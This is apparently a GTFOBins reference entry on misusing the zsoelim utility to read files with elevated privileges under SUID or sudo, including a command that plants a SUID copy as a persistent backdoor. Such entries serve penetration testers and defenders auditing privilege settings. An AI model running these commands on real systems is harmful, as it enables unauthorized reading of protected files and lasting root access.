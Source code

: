 # GTFOBin: zsoelim

The content is actually parsed and corrupted by the command, thus it may not be suitable for arbitrary files.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
zsoelim "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which zsoelim) .

LFILE=file_to_read
./zsoelim "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo zsoelim "$LFILE"
```